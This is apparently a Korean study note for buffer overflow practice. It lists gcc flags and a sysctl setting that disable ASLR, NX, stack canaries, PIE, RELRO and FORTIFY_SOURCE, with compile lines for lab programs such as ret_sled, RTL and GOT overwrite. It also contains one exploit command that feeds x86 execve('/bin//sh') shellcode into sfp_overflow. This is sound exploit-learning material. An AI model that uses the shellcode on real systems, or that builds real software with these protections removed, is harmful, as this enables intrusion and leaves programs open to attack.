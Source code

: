 [BoF 설정]
 
root@fcad5ff3e2e6

GCC 컴파일 시 메모리 보호 기법 끄기

[ASLR] 
sudo sysctl -w kernel.randomize_va_space=0
- 0: ASLR 없음, 1: stack, library가 랜덤, 2: stack, library, heap이 랜덤 

[DEP/NX] 
gcc -z exestack …        # STACK에 실행권한 줌. DEP/NX 제거 

[CANARY] 
gcc -fno-stack-protector … # SSP 해제 
gcc -fstack-protector …   # SSP 설정 

[PIE] 
gcc -no-pie …    # PIE 해제 
gcc -fpie …      # .text 랜덤 
gcc -fpie -pie …   # PIE 설정 

[RELRO] 
gcc -z relro …       # PARTIAL-RELRO 설정
gcc -z relro –z now … # FULL-RELRO 설정 
gcc -z norelro …     # NO-RELRO 

[32bit Compile] 
sudo apt install gcc-multilib   # 관련 라이브러리 설치 후 사용가능
gcc -m32 … 		# 64bit에서 32bit 컴파일 
gcc -m64 … 		# default 

[Dummy] 
gcc -mpreferred-stack-boundary=2 …   # 32 bit 
gcc -mpreferred-stack-boundary=4 …   # 64bit

[함수 최적화] 
gcc -U_FORTIFY_SOURCE -D_FORTIFY_SOURCE=0 … # 함수 최적화 제거

[단독 링크] 
gcc -fno-builtin … # 라이브러리와 링크되지 않고 단독으로 링크 


[RET_Sled] 
gcc -m32 -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -no-pie -fno-pic -o ret_sled ret_sled.c

[RTL] 
gcc -m32 -mpreferred-stack-boundary=2 -fno-stack-protector -no-pie -fno-pic -o rtl rtl.c

[GOT overwrite] 
gcc -m32 -no-pie -fno-pic -o GOT_overwrite GOT_overwrite.c

[sfp_overflow]
gcc -m32 -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -no-pie -fno-pic -o sfp_overflow sfp_overflow.c

./sfp_overflow `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x00" * 15 + "\x84"'`

[UAF] 


[Fake EBP] 
gcc -m32 mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -no-pie -fno-pic -o fake_epb fake_epb.c



[apt-get install 명령이 안될 경우 해결책] 
apt-get update && \apt-get -y install sudo

[오류1] 

root@fcad5ff3e2e6:/home/ret_sled# gcc -m32 -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -no-pie -fno-pic -o ret_sled ret_sled.c 
In file included from ret_sled.c:1:
/usr/include/stdio.h:27:10: fatal error: bits/libc-header-start.h: No such file or directory
   27 | #include <bits/libc-header-start.h>
      |          ^~~~~~~~~~~~~~~~~~~~~~~~~~
compilation terminated.

[해결책] 
sudo apt-get install gcc-multilib g++-multilib

